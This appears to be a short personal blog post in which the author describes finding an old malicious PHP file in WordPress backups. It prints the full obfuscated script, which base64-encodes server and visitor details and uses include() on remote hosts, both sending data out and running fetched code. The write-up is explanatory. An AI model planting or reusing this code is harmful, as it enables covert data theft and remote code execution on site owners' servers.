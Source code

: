 ```yaml
---
title: "An old WordPress hack I found"
date: "Fri Jan 21 14:45:00 -0500 2022"
category: dev
redirect_from: /dev/2022/an-old-wordpress-hack-i-found.html
---
```


I was poking through old WordPress backups I have and noticed a strange
`wp-content/85060.php` file. Turns out one of my sites was hacked back in 2006
or 2007 and I had never noticed.

The file looks to be a surveillance script of some sort that sends server
information to another site `rssnews.ws` or `xmldata.info`.

```php
<? error_reporting(0);
$s="e";
$a=(isset($_SERVER["HTTP_HOST"]) ? $_SERVER["HTTP_HOST"] : $HTTP_HOST);
$b=(isset($_SERVER["SERVER_NAME"]) ? $_SERVER["SERVER_NAME"] : $SERVER_NAME);
$c=(isset($_SERVER["REQUEST_URI"]) ? $_SERVER["REQUEST_URI"] : $REQUEST_URI);
$d=(isset($_SERVER["PHP_SELF"]) ? $_SERVER["PHP_SELF"] : $PHP_SELF);
$e=(isset($_SERVER["QUERY_STRING"]) ? $_SERVER["QUERY_STRING"] : $QUERY_STRING);
$f=(isset($_SERVER["HTTP_REFERER"]) ? $_SERVER["HTTP_REFERER"] : $HTTP_REFERER);
$g=(isset($_SERVER["HTTP_USER_AGENT"]) ? $_SERVER["HTTP_USER_AGENT"] : $HTTP_USER_AGENT);
$h=(isset($_SERVER["REMOTE_ADDR"]) ? $_SERVER["REMOTE_ADDR"] : $REMOTE_ADDR);
$i=(isset($_SERVER["SCRIPT_FILENAME"]) ? $_SERVER["SCRIPT_FILENAME"] : $SCRIPT_FILENAME);
$j=(isset($_SERVER["HTTP_ACCEPT_LANGUAGE"]) ? $_SERVER["HTTP_ACCEPT_LANGUAGE"] : $HTTP_ACCEPT_LANGUAGE);

$str=base64_encode($a).".".
	base64_encode($b).".".
	base64_encode($c).".".
	base64_encode($d).".".
	base64_encode($e).".".
	base64_encode($f).".".
	base64_encode($g).".".
	base64_encode($h).".$s.".
	base64_encode($i).".".
	base64_encode($j);

// base64_decode('d3d3My5yc3NuZXdzLndz") #=> rssnews.ws
if ((include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My5yc3NuZXdzLndz")."/?".$str))) {
} else {
	// base64_decode("aHR0cDovLw==")             #=> http://
	// base64_decode("d3d3My54bWxkYXRhLmluZm8=") #=> www3.xmldata.info
	include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My54bWxkYXRhLmluZm8=")."/?".$str);
} ?>
```

No idea what this would be for, and I didn't see any other malicious files
present. Presumably this was intended to give an attacker a list of vulnerable
sites that they could exploit later.

Fun to find out about a hack 15 years later!
